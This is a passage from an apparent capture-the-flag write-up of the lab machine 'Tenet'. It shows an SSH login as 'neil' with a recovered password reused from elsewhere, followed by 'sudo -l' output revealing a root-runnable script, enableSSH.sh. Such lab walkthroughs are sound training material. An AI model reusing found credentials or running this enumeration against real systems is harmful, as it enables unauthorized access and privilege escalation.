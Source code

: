 Let's try to SSH into the remote machine as `neil` with password `Opera2112` and hope that the password is reused.

```
$ ssh neil@10.10.10.223
neil@10.10.10.223's password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun 16 05:47:44 UTC 2021

  System load:  0.08               Processes:             167
  Usage of /:   15.1% of 22.51GB   Users logged in:       0
  Memory usage: 9%                 IP address for ens160: 10.10.10.223
  Swap usage:   0%


53 packages can be updated.
31 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Thu Dec 17 10:59:51 2020 from 10.10.14.3
neil@tenet:~$
```

### Getting the User Flag

![user flag](images/7.png)

### `enableSSH.sh`

Run `sudo -l` to list out commands that the user can execute as root with no password.

```
neil@tenet:~$ sudo -l
Matching Defaults entries for neil on tenet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```
